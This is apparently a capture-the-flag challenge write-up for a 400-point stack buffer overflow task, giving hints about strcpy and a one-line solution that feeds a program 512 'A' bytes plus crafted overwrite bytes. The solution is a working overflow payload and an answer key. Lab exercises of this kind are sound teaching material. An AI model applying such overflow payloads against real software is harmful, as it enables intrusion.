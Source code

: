 Challenge 3 - 400 Points
========================
Simple buffer overflow to overwite values on the stack.

Hints
-----
1. Strcpy is involved. It's awful.

2. You're gonna need a bigger string.

Solution
--------
./chal3 $(python -c 'print "A"*512 + "\xad\xda\xad\xda\xdd\xee\xee\xdd"')
